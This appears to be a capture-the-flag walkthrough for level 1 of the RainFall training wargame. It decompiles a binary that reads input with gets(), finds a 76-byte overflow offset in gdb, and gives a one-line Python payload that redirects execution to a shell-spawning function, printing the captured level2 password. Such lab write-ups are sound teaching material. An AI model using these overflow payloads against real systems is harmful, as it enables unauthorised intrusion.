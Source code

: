 # Level 01 Walkthrough

## Binary analysis

Decompiling shows the program uses `gets()` to read user input into a 0x40 (64 bytes) buffer, but does not check the length. The function `run()` prints a message and calls `system("/bin/sh")`.

main:
```
08048480    int32_t main(int32_t argc, char** argv, char** envp)
08048496        char buf[0x40]
08048496        return gets(&buf)
```

run:
```
08048444    int32_t run()
0804846d        fwrite(buf: "Good... Wait what?\n", size: 1, count: 0x13, fp: stdout)
0804847f        return system(line: "/bin/sh")
```

## Exploitation

The program is vulnerable to a classic buffer overflow. We can overwrite the return address to call `run()`.

We run the program in gdb with a cyclic pattern to find the offset, found on : https://wiremask.eu/tools/buffer-overflow-pattern-generator/

```
level1@RainFall:~$ gdb -q ./level1 
Reading symbols from /home/user/level1/level1...(no debugging symbols found)...done.
(gdb) r
Starting program: /home/user/level1/level1 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? ()
(gdb) print $eip
$1 = (void (*)()) 0x63413563
```
That's how we find the offset to be 76 bytes because 0x63413563 = "c5Ac".

## Commands used

```
(python -c 'print(b"A" * 76 + b"\x08\x04\x84\x44"[::-1])'; cat -) | ./level1 
```

## Result

After running the exploit, we get a shell as level2 and can read the password:

```
Good... Wait what?
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
